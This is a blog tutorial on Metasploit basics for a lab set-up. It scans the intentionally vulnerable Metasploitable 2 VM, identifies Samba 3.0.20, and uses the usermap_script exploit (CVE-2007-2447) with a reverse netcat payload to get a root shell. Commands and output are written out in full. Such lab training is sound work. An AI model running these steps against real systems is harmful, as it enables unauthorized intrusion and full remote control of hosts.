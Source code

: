 ```yaml
---
layout: post
title: "Metasploit Basics"
description: "From the first start to a reverse shell on a vulnerable host"
#image: /assets/img/.png
#date-modified: 2020-mm-dd
excerpt_separator: <!--more-->
categories: [ "Security" ]
tags: [ "Metasploit", "Kali", "Metasploitable" ]
---
```


This guide show a basic way to use Metasploit (from the Kali Linux distribution). As a result, a reverse shell on a vulnerable host will be open.

This is *not* a guide for `Metasploitable 2`.

## Requirements

To follow this guide exactly:

- a VMware virtual machine with Kali Linux and Metasploit installed. See [Kali Linux on VMware Workstation]({% post_url 2022-11-19-Kali_VMware %}) if you need assistance.
- [Metasploitable 2](https://docs.rapid7.com/metasploit/metasploitable-2) virtual machine. I've downloaded [Metasploitable 2 from SourceForge](http://sourceforge.net/projects/metasploitable/files/Metasploitable2/) site.

## Getting started

Prepare the `Metasploitable 2` guest:

- Load `Metasploitable 2` virtual machine in VMware and remove the network adapter that is **not** connected to the `Host-only` network.
- Start `Metasploitable 2` and login with `msfadmin:msfadmin` credential
- Execute `ip a` and note the IPv4 address of `eth0`, in my case was `172.16.115.129`

In Kali open a terminal, execute `ip a` and note the IPv4 address of `eth0`, in my case was `172.16.115.130`, then and start `msfconsole`.

**Note:** Most of the commands in `msfconsole` will display their help if called with `-h` flag.

```sh
# create a new workspace
msf6 > workspace -a metasploitable
[*] Added workspace: metasploitable
[*] Workspace: metasploitable

# db_nmap uses nmap then stores the results in the workspace's database
# without port specification it will scan the most common 1000 TCP ports
# using the flag `-sV` will also query the open ports to try to identify the services
msf6 > db_nmap -n -sV 172.16.115.129
[*] Nmap: Starting Nmap ...
[...]

# is only one host now but using the `host` command you can see all the hosts in this workspace
msf6 > hosts
Hosts
=====
address         mac  name  os_name  os_flavor  os_sp  purpose  info  comments
-------         ---  ----  -------  ---------  -----  -------  ----  --------
172.16.115.129             Linux                      server

# the `services` command shows the services in this workspace
msf6 > services
Services
========
host            port   proto  name         state  info
----            ----   -----  ----         -----  ----
172.16.115.129  21     tcp    ftp          open   vsftpd 2.3.4
172.16.115.129  22     tcp    ssh          open   OpenSSH 4.7p1 Debian 8ubuntu1 protocol 2.0
172.16.115.129  23     tcp    telnet       open   Linux telnetd
172.16.115.129  25     tcp    smtp         open   Postfix smtpd
172.16.115.129  53     tcp    domain       open   ISC BIND 9.4.2
172.16.115.129  80     tcp    http         open   Apache httpd 2.2.8 (Ubuntu) DAV/2
172.16.115.129  111    tcp    rpcbind      open   2 RPC #100000
172.16.115.129  139    tcp    netbios-ssn  open   Samba smbd 3.X - 4.X workgroup: WORKGROUP
172.16.115.129  445    tcp    netbios-ssn  open   Samba smbd 3.X - 4.X workgroup: WORKGROUP
172.16.115.129  512    tcp    exec         open   netkit-rsh rexecd
172.16.115.129  513    tcp    login        open   OpenBSD or Solaris rlogind
172.16.115.129  514    tcp    shell        open   Netkit rshd
[...]

# using a dedicated module we may get better information about Samba's version
msf6 > use auxiliary/scanner/smb/smb_version
# set the RHOSTS option with the address of the Metaspoitable vm
msf6 auxiliary(scanner/smb/smb_version) > set RHOSTS 172.16.115.129 
RHOSTS => 172.16.115.129
# start the module
msf6 auxiliary(scanner/smb/smb_version) > run

[*] 172.16.115.129:445    - SMB Detected (versions:1) (preferred dialect:) (signatures:optional)
[*] 172.16.115.129:445    -   Host could not be identified: Unix (Samba 3.0.20-Debian)
[*] 172.16.115.129:       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

# the new version was stored in workspace's database
msf6 auxiliary(scanner/smb/smb_version) > services
Services
========
host            port   proto  name         state  info
----            ----   -----  ----         -----  ----
[...]
172.16.115.129  445    tcp    smb          open   Unix (Samba 3.0.20-Debian)
[...]
```

## Find an exploit

**Method  1** Is faster to use `search Samba` because the list of available
exploits is way shorter that the list of vulnerabilities

**Method 2** Find the exploits with `searchsploit samba` :

```sh
$ searchsploit samba
[...]
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)  | unix/remote/16320.rb
```

then search the exploit in Metasploit:

```sh
msf6 > search username map
Matching Modules
================
   #  Name                                        Disclosure Date  Rank       Check  Description
[...]
   3  exploit/multi/samba/usermap_script          2007-05-14       excellent  No     Samba "username map script" Command Execution
```

**Method 3** Scan the host with GVM (OpenVAS) or another vulnerability scanner then, if a vulnerability
is found search it in Metasploit:

```sh
msf6 auxiliary(scanner/smb/smb_version) > search CVE-2007-2447
Matching Modules
================
   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution
```

**Method 4** Search for Samba in a CVE list:

- [NIST - Search Vulnerability Database](https://nvd.nist.gov/vuln/search)
- [MITRE - Search CVE List](https://cve.mitre.org/cve/search_cve_list.html)
- etc.

I have used "Samba code" as a search term and found that CVE-2007-2447 allows remote attackers to execute arbitrary code in Samba version 3.0.20.

## Exploit

```sh
# select the exploit
msf6 auxiliary(scanner/smb/smb_version) > use exploit/multi/samba/usermap_script
[*] Using configured payload cmd/unix/reverse_netcat

# View the full module information with the info, or info -d command

# Check module's options
msf6 exploit(multi/samba/usermap_script) > show options
Module options (exploit/multi/samba/usermap_script):
   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT   139              yes       The target port (TCP)

Payload options (cmd/unix/reverse_netcat):
   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  127.0.0.1        yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:
   Id  Name
   --  ----
   0   Automatic

# set the RHOSTS option with the address of the Metaspoitable vm
msf6 exploit(multi/samba/usermap_script) > set RHOSTS 172.16.115.129 
RHOSTS => 172.16.115.129

# because the payload uses a reverse connection LHOST must be the address
# of the this vm
msf6 exploit(multi/samba/usermap_script) > set LHOST 172.16.115.130 
LHOST => 172.16.115.130

# start
msf6 exploit(multi/samba/usermap_script) > exploit
[*] Started reverse TCP handler on 172.16.115.130:4444 
[*] Command shell session 1 opened (172.16.115.130:4444 -> 172.16.115.129:53175) at 2022-11-19 11:12:13

# try some commands on the remote host
uname -a
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
id
uid=0(root) gid=0(root)
exit
[*] 172.16.115.129 - Command shell session 1 closed.

# bye
msf6 exploit(multi/samba/usermap_script) > exit
```
